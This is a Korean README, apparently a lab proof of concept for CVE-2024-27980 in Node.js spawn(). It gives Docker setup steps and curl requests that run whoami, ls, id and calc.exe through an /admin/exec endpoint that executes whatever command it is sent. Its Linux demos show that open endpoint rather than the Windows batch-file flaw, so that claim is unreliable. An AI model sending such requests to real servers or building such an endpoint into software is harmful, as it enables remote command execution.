 # CVE-2024-27980 - Improper handling of batch file extensions in Node.js child_process.spawn()

## 요약
- **CVE 번호**: CVE-2024-27980
- **취약점 설명**: Node.js의 `child_process.spawn()` 및 `spawnSync()` 함수가 Windows 환경에서 배치 파일(.bat) 확장자 처리를 부적절하게 하여, `shell: false` 옵션을 사용했음에도 명령어 주입이 발생할 수 있다.
- **영향 받는 버전**: Node.js 18.x, 20.x, 22.x 릴리스 라인 (Windows 환경)
- **취약점 유형**: Command Injection
- **PoC 방식**: `shell: false` 설정 상태에서도 명령어 실행이 가능함을 확인


## 환경 구성 및 실행
- 테스트 서버는 Node.js 20 버전을 사용하여 Docker를 구성한다.
- `http://localhost:3000/admin/exec` 에 POST 요청을 보내면서 명령어를 실행한다.

### 환경 요구사항
- Windows OS (Docker Desktop 설치)
- Node.js 설치 (20.x 버전)
- Git Bash, PowerShell 사용

아래는 docker 환경 구축을 하는 방법이며, 사진은 해당 결과물이다.
```
docker-compose build --no-cache
```
![image](https://github.com/user-attachments/assets/b1266083-393e-4671-af16-788d5efdf557)

```
docker-compose up -d
```
![image](https://github.com/user-attachments/assets/587fdcf7-c68c-48d6-90f1-1e01fe0c7cb8)


## 결과
### [윈도우 환경] 
- Docker 컨테이너는 리눅스 기반으로 동작하기 때문에, Windows 전용 프로그램(calc.exe 등)은 실행되지 않는다.
- 하지만, 실제 windows 환경에서는 관련 명령어 시도가 가능한 것을 확인할 수 있다. (node 설치 필요) 아래 과정을 통해 프로그램 실행이 가능한 것을 확인할 수 있다. (calc.exe 출력)

1. ../src 경로에서 `node app.js` 실행
2. 아래 명령어 입력
```
curl -X POST http://localhost:3001/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd": "calc.exe", "args": []}'
```

### [Docker 환경]
- 리눅스 기본 명령어인 `ls`, `id`, `whoami` 등을 curl 명령어로 요청을 보내며 PoC를 진행한다.
1. whoami 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"whoami","args":[]}'
```
![image](https://github.com/user-attachments/assets/f2fc8d40-396c-4648-bcec-312ee34fa681)

2. ls 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d "{\"cmd\":\"ls\",\"args\":[\"-l\"]}"
```
![image](https://github.com/user-attachments/assets/b4b75a31-ea85-4173-b0e4-8db37d9ba988)

3. id 명령어
```
curl -X POST http://localhost:3000/admin/exec \
-H "Content-Type: application/json" \
-d '{"cmd":"id","args":[]}'
```
![image](https://github.com/user-attachments/assets/61b84ab2-60e3-40c1-81c1-e5ceec0f2820)

위 curl 명령어를 통해 실행한 결과는, 터미널에서 직접 해당 명령어들을 입력했을 때 출력되는 결과와 동일함을 확인할 수 있다.

## 정리
- CVE-2024-27980은 Windows 환경에서 child_process.spawn() 및 spawnSync()가 확장자 자동 처리 과정에서 명령어 주입을 방지하지 못해 발생하는 취약점이다.
- `shell: false` 설정만으로는 Windows 환경에서 완벽한 명령어 검증이 되지 않으며, 사용자가 입력한 명령어를 통해 프로그램 실행이 가능해질 수 있다.
- PoC 결과, Docker 리눅스 컨테이너에서는 리눅스 기본 명령어 실행이 가능했으며, Windows 로컬 환경에서는 calc.exe 실행을 통해 프로그램 실행이 가능함을 확인하였다.
- 해당 취약점을 방지하기 위해 Node.js를 최신 버전(v20.15.1 이상)으로 업데이트하고, 사용자 입력값에 대한 엄격한 검증이 필요하다

## 참고
https://nodejs.org/en/blog/vulnerability/july-2024-security-releases
https://nvd.nist.gov/vuln/detail/CVE-2024-27980
https://knvd.krcert.or.kr/detailSecNo.do?IDX=6235

